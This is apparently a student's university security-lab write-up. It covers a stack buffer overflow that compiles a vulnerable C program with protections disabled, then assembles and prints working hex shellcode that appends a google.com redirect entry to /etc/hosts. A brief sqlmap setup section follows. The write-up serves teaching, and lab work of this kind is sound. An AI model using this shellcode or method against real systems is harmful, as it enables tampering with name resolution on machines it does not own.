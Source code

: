 # Lab #1,20110370, Phung Huy Hoang, INSE331280E_02FIE
# Task 1: Buffer overflow attack
This Lab aims to exploit a buffer overflow vulnerability to attack and modify the /etc/hosts file
**Question 1**: 
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**:
## 1. Compile asm program and C program to executable code.:
*First, Create a text file named `Lab1.c` containing the vulnerable c code:*<br>

<img width="500" alt="Screenshot" src="https://github.com/hoangphung123/SECLAB1/blob/master/img/Lab1.png?raw=true"><br>

*Then: Compile the vulnerable C program using the following command "gcc -g Lab1.c -o Lab1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2"*<br>

```sh
gcc -g Lab1.c -o Lab1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
``` 
- fno-stack-protector: Disables stack protection mechanisms (canary)
- z execstack: Makes the stack executable, allowing the shellcode to run
- mpreferred-stack-boundary=2: Stack will be aligned with 2^2 = 4 bytes

*Next, Write and compile shellcode using assembly*<br>
- Create a file named `shellcode.asm`
- Compile shellcode.asm
```sh
nasm -f elf32 -o shellcode.o shellcode.asm
``` 
```sh
ld -o shellcode shellcode.o
``` 
- The command ld -o shellcode shellcode.o is used to link (link) the object file (object file) shellcode.o into an executable file named shellcode.

*Next, Extract shellcode in hex format*<br>

```sh
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
``` 
- We will get the hex code as shown

<img width="1000" alt="Screenshot" src="https://github.com/hoangphung123/SECLAB1/blob/master/img/Hex.png?raw=true"><br>

```sh
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d
``` 
*Next, Create Payload*<br>
We will create a payload to overflow the buffer and inject shellcode. Payload includes:
- NOP sled (NOP command sequence to ensure safe jumping into shellcode).
- Shellcode (the code we just extracted).
- Buffer address (memory address containing shellcode).


# Task 2: SQLMAP
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.
*Step1, Run the following command to download sqlmap from GitHub:*<br>
```sh
git clone https://github.com/sqlmapproject/sqlmap.git
``` 
*Step2, Go into the sqlmap folder:*<br>
```sh
cd sqlmap
``` 
*Step3, Run sqlmap*<br>
```sh
python sqlmap.py
``` 

